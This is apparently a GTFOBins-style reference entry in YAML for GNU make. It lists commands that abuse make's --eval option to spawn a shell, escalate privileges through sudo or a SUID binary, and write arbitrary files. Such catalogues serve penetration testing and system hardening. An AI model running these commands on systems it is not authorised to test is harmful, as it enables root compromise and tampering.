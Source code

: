 ```yaml
---
functions:
  execute-interactive:
    - code: |
        COMMAND='/bin/sh'
        make -s --eval=$'x:\n\t-'"$COMMAND"
  sudo-enabled:
    - code: |
        COMMAND='/bin/sh'
        sudo make -s --eval=$'x:\n\t-'"$COMMAND"
  suid-enabled:
    - code: |
        COMMAND='/bin/sh'
        ./make -s --eval=$'x:\n\t-'"$COMMAND"
  file-write:
    - code: |
        LFILE=file_to_write
        make -s --eval="\$(file >$LFILE,data)" .
---
```

